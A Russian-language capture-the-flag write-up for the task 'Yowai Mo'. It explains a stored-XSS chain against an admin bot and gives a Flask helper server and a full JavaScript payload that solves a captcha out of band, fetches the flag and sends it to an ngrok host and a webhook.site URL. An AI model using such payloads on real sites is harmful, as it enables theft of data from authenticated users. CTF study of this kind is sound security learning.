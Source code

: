 # Writeup на таск Yowai Mo

При заходе на основную страницу видим картину:
![main page](img/image.png)

Внимательно читаем исходники и видим что бекенд принимает 3 поля уязвимые XSS-у и при создании поста бот авторизуется с аккаунта админа и переходит на страницу нового поста, тем самым тригеря XSS. 
![alt text](img/image-1.png)

Дальше смотрим код и видим функцию которая требует решенную капчу и возвращает флаг.
![alt text](img/image-2.png)

Я пришел к выводу что нужно сделать следующие действия:
1. Поднять веб-сервер локально который принимает капчу в формате base64/png
2. Пейлоад(xss) возьмет капчу с /generate/captcha.png и отправит на мой веб-сервер
3. Как я получаю капчу у себя локально, пытаюсь за 15 секунд решить
4. Пейлоад на фронтенде ждет когда веб-сервер вернет решенную капчу, после этого отправляет запрос для решения капчи и запрос для получения флага, полученный флаг отправляет на мой вебхук

Код веб-сервера:
```python
# server on flask that tooks image from post request and saves to disk

import os
from base64 import b64decode

from flask import Flask, request, jsonify, Response
from flask_cors import CORS

app = Flask(__name__)
cors = CORS(app)

@app.route('/upload', methods=['POST'])
def upload():
    img = b64decode(request.get_data().decode().split('base64,', 1)[1])
    with open('image.png', 'wb') as f:
        f.write(img)
    print(request.content_length)
    os.system('start image.png')
    return jsonify({'message': 'image saved'})

@app.route('/captcha', methods=['GET'])
def captcha():
    with open('captcha.txt', 'r') as f:
        text = f.read()
    return Response(text, mimetype='text/plain')

if __name__ == '__main__':
    app.run(port=5000)

```

Код пейлоада.

```html
<script>
var xhr1 = new XMLHttpRequest();
xhr1.open('GET', '/generate/captcha.png', true);
xhr1.responseType = 'blob';
xhr1.onload = function() {
    var reader = new FileReader();
    reader.onload = function() {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('POST', 'http://0.tcp.in.ngrok.io:17412/upload', true);
        xhr2.send(reader.result);
        setInterval(captcha_polling, 3000);
    };
    reader.readAsDataURL(xhr1.response);
};
xhr1.send();
function captcha_polling() {
    var xhr3 = new XMLHttpRequest();
    xhr3.open('GET', 'http://0.tcp.in.ngrok.io:17412/captcha', true);
    xhr3.onreadystatechange = function() {
        if (xhr3.readyState == 4) {
            if (xhr3.response == '0')
                return;
            var captcha_solution = xhr3.response;
            var xhr4 = new XMLHttpRequest();
            xhr4.open('POST', '/validate-captcha', true);
            xhr4.onreadystatechange = function() {
                if (xhr4.readyState == 4) {
                    var text = xhr4.response;
                    var z=new Image(); 
                    z.src="http://webhook.site/ce483c69-e3fe-40f2-b31d-758004227b9e?captcha_response=" + encodeURIComponent(captcha_solution) + " " +text+" " +xhr4.status;
                    var xhr5 = new XMLHttpRequest();
                    xhr5.open('GET', '/getWhatawant', true);
                    xhr5.onreadystatechange = function() {
                        var p=new Image(); 
                        p.src="http://webhook.site/ce483c69-e3fe-40f2-b31d-758004227b9e?"+xhr5.response;
                    };
                    xhr5.send();
                };
            };
            xhr4.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr4.send("captchaInput="+captcha_solution);
        };
    };
    xhr3.send();
};
</script>
```